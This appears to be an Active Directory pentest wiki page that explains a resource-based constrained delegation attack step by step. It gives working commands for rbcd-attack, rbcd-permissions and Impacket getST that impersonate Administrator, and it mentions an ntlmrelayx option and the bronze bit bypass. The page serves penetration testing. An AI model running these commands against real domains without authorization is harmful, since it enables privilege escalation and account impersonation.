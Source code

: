 {% tabs %}
{% tab title="UNIX-like" %}
**1 - Check the value** 🔎 **& Create the computer account** ⚒\*\*\*\*

Check the [MachineAccountQuota](../domain-settings/machineaccountquota.md) page

**2 - Edit the target's security descriptor** ✏ ****

The [rbcd-attack](https://github.com/tothi/rbcd-attack) script \(Python\) can be used to modify the delegation rights \(populate the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor\), using the credentials of a domain user. The [rbcd permissions](https://github.com/NinjaStyle82/rbcd_permissions) script \(Python\) is an alternative to rbcd-attack that can also do [pass-the-hash](../ntlm/pass-the-hash.md), [pass-the-ticket](pass-the-ticket.md), and operate cleanup of the security descriptor.

```bash
rbcd-attack -f 'SHUTDOWN' -t $Target -dc-ip $DomainController 'DOMAIN\anonymous:anonymous'

# Attack (example with user/password)
rbcd-permissions -c 'CN=SHUTDOWN,OU=Computers,DC=DOMAIN,DC=LOCAL' -t 'CN=TARGET,OU=Computers,DC=DOMAIN,DC=LOCAL' -d $DOMAIN_FQDN -u $USER -p $PASSWORD -l $LDAPSERVER

# Cleanup
rbcd-permissions --cleanup -c 'CN=SHUTDOWN,OU=Computers,DC=DOMAIN,DC=LOCAL' -t 'CN=TARGET,OU=Computers,DC=DOMAIN,DC=LOCAL' -d $DOMAIN_FQDN -u $USER -p $PASSWORD -l $LDAPSERVER
```

{% hint style="success" %}
Testers can use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to set the delegation rights with the `--delegate-access` option \(see [NTLM relay](../ntlm/relay.md)\) instead of using [rbcd-attack](https://github.com/tothi/rbcd-attack) or [rbcd-permissions](https://github.com/NinjaStyle82/rbcd_permissions)
{% endhint %}

**3 - Obtain a ticket** 🎫 ****

Once the security descriptor has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can then perform all the necessary steps to obtain the final "impersonating" ST \(in this case, "Administrator" is impersonated but it can be any user in the environment\).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

{% hint style="warning" %}
In [some cases](delegations.md#theory), the delegation will not work. Depending on the context, the [bronze bit ](forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability \(CVE-2020-17049\) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}

**4 - Pass-the-ticket** 🛂 ****
